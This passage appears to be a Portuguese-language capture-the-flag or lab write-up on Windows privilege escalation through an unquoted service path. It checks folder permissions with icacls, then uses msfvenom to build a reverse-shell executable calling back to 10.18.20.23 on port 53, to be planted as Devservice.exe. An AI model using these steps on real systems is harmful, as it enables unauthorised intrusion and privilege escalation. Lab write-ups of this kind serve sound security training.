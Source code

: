 - `C:\Program.exe`
- `C:\Program Files\Development.exe`
- `C:\Program Files\Development Files\Devservice.exe`
- `C:\Program Files\Development Files\Devservice Files\Service.exe`

Agora temos que descobrir se nosso usuário `Sage` possui permissões de escrita onde o serviço está localizado ou a qualquer diretório anterior, o que nos permitirá inserir um executável malicioso.

As permissões de pasta podem ser verificadas usando icacls (Integrity Control Access Control Lists) por meio da linha de comando.

Então vamos verificar as permissões do diretório `C:\Program Files\Development Files`

```cmd
C:\Users\Sage\Desktop\New folder>icacls "C:\Program Files\Development Files"
C:\Program Files\Development Files BUILTIN\Users:(W)
                                   NT SERVICE\TrustedInstaller:(I)(F)
                                   NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                   NT AUTHORITY\SYSTEM:(I)(F)
                                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                   BUILTIN\Administrators:(I)(F)
                                   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                   BUILTIN\Users:(I)(RX)
                                   BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Aqui podemos ver que o grupo `BUILTIN\Users` possui permissões de escrita, o que nos permite criar um executável malicioso.

---

## **<a id="3"> • Exploração</a>**

Agora que temos permissões de escrita, vamos criar um executável malicioso. Para isso, vamos usar o [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), que é uma ferramenta de linha de comando que gera payloads para o Metasploit.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         00:50:18
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f exe -o Devservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: Devservice.exe
```
